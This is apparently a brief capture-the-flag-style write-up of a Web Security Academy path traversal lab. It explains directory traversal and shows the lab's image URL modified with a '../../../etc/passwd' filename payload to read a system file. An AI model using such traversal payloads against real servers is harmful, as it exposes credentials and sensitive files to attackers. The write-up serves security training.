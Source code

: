 Path traversal is also known as directory traversal. These vulnerabilities enable an attacker to read arbitrary files on the server that is running an application. This might include:

- Application code and data.
- Credentials for back-end systems.
- Sensitive operating system files.

In some cases, an attacker might be able to write to arbitrary files on the server, allowing them to modify application data or behavior, and ultimately take full control of the server.


We've got :
https://0a5f004404ae9c6f829e6a69001700f3.web-security-academy.net/

So we get to:

https://0a5f004404ae9c6f829e6a69001700f3.web-security-academy.net/image?filename=57.jpg

once that we do Path Traversal

https://0a5f004404ae9c6f829e6a69001700f3.web-security-academy.net/image?filename=../../../etc/passwd
